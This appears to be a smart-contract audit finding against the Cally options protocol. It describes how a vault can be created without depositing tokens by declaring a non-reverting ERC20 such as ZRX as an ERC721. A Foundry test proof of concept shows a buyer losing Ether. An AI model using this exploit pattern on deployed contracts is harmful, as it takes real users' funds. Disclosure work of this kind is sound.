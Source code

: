 <https://github.com/code-423n4/2022-05-cally/blob/main/contracts/src/Cally.sol#L198-L200>

### Impact

Some ERC20 tokens don't throw but just return false when a transfer fails. This can be abused to trick the `createVault()` function to initialize the vault without providing any tokens. A good example of such a token is *ZRX*: [Etherscan code](https://etherscan.io/address/0xe41d2489571d322189246dafa5ebde1f4699f498#code#L64)

When such a vault is initialized, another user can both buy and exercise the option without ever receiving any funds. The creator of the vault does receive the buyer's Ether tho. So it can cause a loss of funds.

### Proof of Concept

The trick is to create a vault with an ERC20 token but use ERC721 as the vault's type. Then, instead of calling `safeTransferFrom()` the function calls `transferFrom()` which won't catch the token returning false.

Here's a test that showcases the issue:

```solidity
// CreateVault.t.sol
    function testStealFunds() public {
        // address of 0x on mainnet
        address t = address(0xE41d2489571d322189246DaFA5ebDe1F4699F498);
        vm.startPrank(babe);
        require(ERC20(t).balanceOf(babe) == 0);
        uint vaultId = c.createVault(100, t, 1, 1, 1, 0, Cally.TokenType.ERC721);
        // check that neither the Cally contract nor the vault creator
        // had any 0x tokens
        require(ERC20(t).balanceOf(babe) == 0);
        require(ERC20(t).balanceOf(address(c)) == 0);

        // check whether vault was created properly
        Cally.Vault memory v = c.vaults(vaultId);
        require(v.token == t);
        require(v.tokenIdOrAmount == 100);
        vm.stopPrank();
        // So now there's a vault for 100 0x tokens although the Cally contract doesn't
        // have any.
        // If someone buys & exercises the option they won't receive any tokens.
        uint premium = 0.025 ether;
        uint strike = 2 ether;
        require(address(c).balance == 0, "shouldn't have any balance at the beginning");
        require(payable(address(this)).balance > 0, "not enough balance");

        uint optionId = c.buyOption{value: premium}(vaultId);
        c.exercise{value: strike}(optionId);

        // buyer of option (`address(this)`) got zero 0x tokens
        // But buyer lost their Ether
        require(ERC20(t).balanceOf(address(this)) == 0);
        require(address(c).balance > 0, "got some money");
    }
```
